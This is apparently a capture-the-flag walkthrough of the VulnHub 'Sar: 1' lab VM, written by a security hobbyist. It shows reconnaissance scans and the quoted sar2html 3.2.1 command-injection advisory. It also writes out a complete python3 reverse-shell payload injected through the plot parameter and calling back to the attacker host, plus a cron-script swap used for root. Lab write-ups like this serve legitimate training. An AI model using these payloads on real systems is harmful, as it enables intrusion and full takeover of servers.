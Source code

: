 
|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Sar: 1**

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.  It is a Linux box and released on Feb 15, 2020.

Download : [Sar: 1](https://www.vulnhub.com/entry/sar-1,425/)  
Format   : VirtualBox (OVA)  
DHCP     : Enabled  

Since the ```netdiscover``` not working properly at my Kali 2020.1, I use ```nmap``` instead to get the IP address of the Sar:1 box which is on ```10.0.2.18```.  My Kali box is on ```10.0.2.24```.

```bash
samiux@kali:~$ nmap 10.0.2.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:17 HKT
Nmap scan report for 10.0.2.1
Host is up (0.00033s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 10.0.2.2
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
631/tcp open  ipp

Nmap scan report for 10.0.2.18
Host is up (0.0012s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 10.0.2.24
Host is up (0.0015s latency).
All 1000 scanned ports on 10.0.2.24 are closed

Nmap done: 256 IP addresses (4 hosts up) scanned in 3.37 seconds
```

Run ```nmap``` for the port scan on the Sar:1 box.

```bash
samiux@kali:~$ nmap -A -p- 10.0.2.18
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:19 HKT
Nmap scan report for 10.0.2.18
Host is up (0.00094s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.74 seconds
```

The scan reports only port 80 is opened.  Thus, ```gobuster``` is used for the directories of the box.

```bash
samiux@kali:~$ gobuster dir -u http://10.0.2.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.18
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/03/09 22:20:54 Starting gobuster
===============================================================
/index.html (Status: 200)
/robots.txt (Status: 200)
/phpinfo.php (Status: 200)
/server-status (Status: 403)
===============================================================
2020/03/09 22:26:48 Finished
===============================================================
```

Open the ```Firefox``` to browse on the ```10.0.2.18```.  Then browse ```robots.txt``` also.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-001.png)  

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-002.png)  

The ```robots.txt``` shows ```sar2HTML```.  Browse to it and it shows sar2html application.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-003.png)  

Conduct a ```searchsploit``` on Kali box.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-004.png)  

The content of the result is :

```bash
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.
```

Click on ```NEW``` on the left hand side and it shows the url is ```http://10.0.2.18/sar2HTML/index.php?plot=NEW```.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-005.png)  

Test it with ```;id``` and found it can execute command ```id```.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-006.png)  

After several tries and errors, it is confirmed that ```python3``` and ```bash``` are installed on the box.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-007.png)  

## **Reverse shell and user.txt**

Places the following python3 command on the url.

```bash
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.24",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

And run the listener at another terminal.

```bash
nc -lvp 4444
```

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-008.png)  

I found out that ```finally.sh``` and ```write.sh``` at ```/var/www/html``` of the box.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-009.png)  

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-010.png)  

After a search on ```/home/love/Desktop```, I found the ```user.txt``` key.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-011.png)  

## **Reverse shell and root.txt**

Back to the ```finally.sh``` and ```write.sh```.  After a search, I found ```/etc/crontab``` which runs ```finally.sh``` on every 5 minutes.  However, I cannot see ```gateway``` at ```/tmp``` after 5 minutes.

After thinking of a while, I decided to replace the ```write.sh``` with my own ```write.sh```.  I prepared the ```write.sh``` at ```/var/www/html``` of my Kali box and then starts the Apache2.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-012.png)  

Download my own copy of ```write.sh``` to the box and makes it executable.  Prepare another listener at port 7777 on Kali.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-013.png)  

After 5 minutes or so, I got the reverse shell and the ```root.txt``` is found on ```/root```.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-014.png)  

Root is dancing!

## **Final thought**

This Capture The Flag (CTF) is based on a realistic vulnerability.  To get the ```root.txt``` is however a little bit tricky.  Anyway, it is a very good box to play with.  Recommended.

Samiux  
OSCE  OSCP  OSWP  
Mar 10, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
